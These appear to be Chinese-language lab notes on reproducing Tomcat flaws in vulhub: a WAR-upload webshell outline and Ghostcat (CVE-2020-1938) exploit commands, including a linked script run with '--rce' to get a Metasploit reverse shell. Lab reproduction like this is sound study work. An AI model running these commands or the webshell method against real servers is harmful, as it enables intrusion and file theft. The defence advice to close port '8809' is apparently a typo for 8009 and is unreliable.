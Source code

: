 ``` bash
#开启示例
cd ~/vulhub/struts2/s2-013/

docker-compose build
docker-compose up -d

#关闭
docker-compose down

#进入docker tomcat命令行
docker-compose exec tomcat bash
```

# tomcat 文件上传漏洞

## 简易步骤

1. 编写jsp脚本

2. 压缩到`.war`格式压缩包中

3. 上传到服务器，自动解压至同名目录下

4. 访问jsp脚本

## 防护手段

修改口令？

# CNVD-2020-10487(CVE-2020-1938)tomcat ajp 文件读取漏洞

## 漏洞简介

   Tomcat 服务器是一个免费的开放源代码的Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。由于Tomcat默认开启的AJP服务（8009端口）存在一处文件包含缺陷，攻击者可构造恶意的请求包进行文件包含操作，进而读取受影响Tomcat服务器上的Web目录文件。

## 影响范围

* Apache Tomcat 6
* Apache Tomcat 7 < 7.0.100
* Apache Tomcat 8 < 8.5.51
* Apache Tomcat 9 < 9.0.31

## 漏洞复现

``` bash
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 -f "/WEB-INF/web.xml" 192.168.137.129
```

对脚本加以修改，这里下到一个增加了`--rce`来反弹shell的py3脚本：

鏈接: https://pan.baidu.com/s/101wFmK1J0OGYRC383fdBBA 提取碼: xg4s

执行命令，msf获得反弹shell：

``` bash
python3 2020-10487.py -p 8009 -f /WEB-INF/shell.jsp 192.168.137.129 --rce 1
```

## 漏洞防护

1. 升级tomcat版本

2. 关闭8809端口